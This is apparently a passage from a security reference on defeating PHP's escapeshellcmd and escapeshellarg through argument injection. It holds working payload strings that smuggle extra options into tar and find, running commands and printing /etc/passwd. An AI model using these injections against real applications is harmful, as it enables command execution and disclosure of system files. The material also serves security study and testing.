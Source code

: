 # Known bypasses/exploits

When you want to exploit those functions you have 2 options:

* if PHP version is VERY OLD you can try one of the [historical exploits](#historical-exploits),
* otherwise you need to try [Argument Injection](#argument-injection) technique.

# Argument Injection

As you can see from previous chapter it's not possible to execute second command when escapeshellcmd/escapeshellarg is used.

But still we can pass arguments to the first command.

This means that we can also pass new option to the command.

Ability to exploit vulnerability depends on the target executable.

Below you can find list of known executables with some specific options which can be misused.

## [TAR](http://baesystemsai.blogspot.fr/2013/11/security-issues-with-using-phps.html)

Compress `some_file` into `/tmp/sth`.

```php
$command = '-cf /tmp/sth /some_file';
system(escapeshellcmd('tar '.$command));
```

Create empty `/tmp/exploit` file.

```php
$command = "--use-compress-program='touch /tmp/exploit' -cf /tmp/passwd /etc/passwd";
system(escapeshellcmd('tar '.$command));
```

## [FIND](https://www.securify.nl/blog/SFY20170103/spot-the-bug-challenge-2016-write-up.html)

Find `some_file` inside `/tmp` directory.

```php
$file = "some_file";
system("find /tmp -iname ".escapeshellcmd($file));
```

Print `/etc/passwd` content.

```php
$file = "sth -or -exec cat /etc/passwd ; -quit";
system("find /tmp -iname ".escapeshellcmd($file));
```

## [Escapeshellcmd with escapeshellarg](https://blog.ripstech.com/2017/why-mail-is-dangerous-in-php/)
